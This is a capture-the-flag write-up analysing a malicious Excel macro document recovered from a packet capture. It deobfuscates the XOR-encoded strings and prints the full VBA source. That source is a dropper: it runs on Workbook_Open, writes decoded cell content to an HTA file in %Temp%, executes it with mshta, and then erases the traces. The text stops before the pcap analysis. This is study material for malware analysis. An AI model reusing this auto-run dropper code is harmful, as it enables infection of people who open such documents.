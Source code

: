 

Challenge starts with a pcap file  : 




HTTP objects show two things : a long string of hex encoded data that appears encrypted, and a xlsm file (excel with macro).

Since this is a malware analysis challenge, let's start with the macros. they can easily be dumped with olevba.

the macros are lightly obfuscated, but there is a pretty obvious part : 
```vba

f = Chr(72) & Chr(70) & Chr(45) & MD5Hex(Environ$(cqw543hi(Chr(54) & "" & Chr(58) & "8" & "%" & " " & Chr(33) & "0" & "'" & ";" & "" & "4" & "" & Chr(56) & "" & "0")))
'flag ^

```

This is suspicious. Unfortunately, the flag we get isn't accepted. let's deobfuscate a little bit. we can figure out the obfuscated strings dynamically, by using the vba debugger included inside excel. Modifying the code a little bit so we can place breakpoints and watches, we get this : 

```vba

f = "HF-" & MD5Hex(Environ$("computer-name"))
'flag ^

```

We need the computer name of the intended target. luckily, we have a pcap





```vba
Function gdgdewdgdg(sText As String, lngNumber As Long) As String
Dim Tbl, strGlob As String, strTemp As String, i As Long, bytAscii As Byte
Const MAJ As String = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
Const NB_LETTERS As Byte = 26
Const DIFFASCIIMAJ As Byte = 65 - NB_LETTERS
Const DIFFASCIIMIN As Byte = 97 - NB_LETTERS

strTemp = sText
If lngNumber < NB_LETTERS And lngNumber > NB_LETTERS * -1 Then
strGlob = String(NB_LETTERS * 4, " ")
LSet strGlob = MAJ & MAJ & MAJ
Tbl = Split(StrConv(strGlob, vbUnicode), Chr(0))
For i = 1 To Len(strTemp)
If Mid(strTemp, i, 1) Like "[a-zA-Z]" Then
    bytAscii = Asc(Mid(strTemp, i, 1))
    If Mid(strTemp, i, 1) = Tbl(bytAscii - DIFFASCIIMAJ) Then
        Mid(strTemp, i) = Tbl(bytAscii - DIFFASCIIMAJ + (lngNumber))
    Else
        Mid(strTemp, i) = LCase(Tbl(bytAscii - DIFFASCIIMIN + lngNumber))
    End If
End If
Next i
End If
gdgdewdgdg = strTemp
End Function


Public Function MD5Hex(textString As String) As String
Dim enc
Dim textBytes() As Byte
Dim bytes
Dim outstr As String

Set enc = CreateObject("System.Security.Cryptography.MD5CryptoServiceProvider")
textBytes = textString
bytes = enc.ComputeHash_2((textBytes))

For pos = 1 To LenB(bytes)
outstr = outstr & LCase(Right("0" & Hex(AscB(MidB(bytes, pos, 1))), 2))
Next
MD5Hex = outstr
Set enc = Nothing

End Function


Function fece(str As String) As Variant: Dim bytes() As Byte: bytes = str: fece = bytes: End Function
Function ng7b(bytes() As Byte) As String: Dim str As String: str = bytes: ng7b = str: End Function

Function u1dh(str As String) As Variant: Dim bytes() As Byte: bytes = str: u1dh = bytes: End Function
Function qgg8(bytes() As Byte) As String: Dim str As String: str = bytes: qgg8 = str: End Function

Function cqw543hi(str As String) As String
Const p_ As String = "k3nwekcy"
Dim sb_() As Byte, pb_() As Byte
sb_ = u1dh(str)
pb_ = u1dh(p_)

Dim uL As Long
uL = UBound(sb_)

ReDim scb_(0 To uL) As Byte

Dim idx As Long

For idx = LBound(sb_) To uL:
If Not sb_(idx) = 0 Then
c = sb_(idx)
For i = 0 To UBound(pb_):
c = c Xor pb_(i)
Next i
scb_(idx) = c
End If

Next idx

cqw543hi = qgg8(scb_)
End Function



Sub test()

f = Chr(72) & Chr(70) & Chr(45) & MD5Hex(Environ$(cqw543hi(Chr(54) & "" & Chr(58) & "8" & "%" & " " & Chr(33) & "0" & "'" & ";" & "" & "4" & "" & Chr(56) & "" & "0")))
'flag ^

Dim ct As String
Dim fz77go6o As String
Dim sljvuw9t As String
Dim a61fjadq As String
fz77go6o = Range("U" & cqw543hi("" & "d" & "" & Chr(103) & "" & Chr(102))).Value
sljvuw9t = Range("V" & cqw543hi("" & "d" & "" & "g" & "" & "f" & "")).Value
a61fjadq = Range("W" & cqw543hi("" & "" & Chr(100) & "" & Chr(103) & "" & Chr(102) & "")).Value

ct = gdgdewdgdg(fz77go6o, 14)
Range("U" & cqw543hi("" & "d" & "" & Chr(103) & "" & Chr(102))).Value = ct
ct = gdgdewdgdg(sljvuw9t, 24)
Range("V" & cqw543hi("" & "d" & "" & "g" & "" & "f" & "")).Value = ct
ct = gdgdewdgdg(a61fjadq, 14)
Range("W" & cqw543hi("" & "" & Chr(100) & "" & Chr(103) & "" & Chr(102) & "")).Value = ct

Set o = CreateObject("Wscript.Shell")
Set f = CreateObject("Scripting.FileSystemObject")
Dim p
p = o.ExpandEnvironmentStrings("%Temp%")
Set fs = CreateObject("Scripting.FileSystemObject")
Set A = fs.CreateTextFile(p & "\esfegserg.htm", True)
A.WriteLine (Range("U" & cqw543hi("" & "d" & "" & Chr(103) & "" & Chr(102))).Value)
A.WriteLine (Range("V" & cqw543hi("" & "d" & "" & "g" & "" & "f" & "")).Value)
A.WriteLine (Range("W" & cqw543hi("" & "" & Chr(100) & "" & Chr(103) & "" & Chr(102) & "")).Value)
A.Close
o.Run ("mshta " & p & "\esfegserg.htm")
Application.Wait (Now + TimeValue("0:00:10"))
Set b = fs.CreateTextFile(p & "\esfegserg.htm", True)
b.WriteLine (".")
b.Close
Range("U" & cqw543hi("" & "d" & "" & Chr(103) & "" & Chr(102))).Value = "."
ct = gdgdewdgdg(sljvuw9t, 24)
Range("V" & cqw543hi("" & "d" & "" & "g" & "" & "f" & "")).Value = "."
ct = gdgdewdgdg(a61fjadq, 14)
Range("W" & cqw543hi("" & "" & Chr(100) & "" & Chr(103) & "" & Chr(102) & "")).Value = "."
End Sub

Private Sub Workbook_Open()
test
End Sub
```
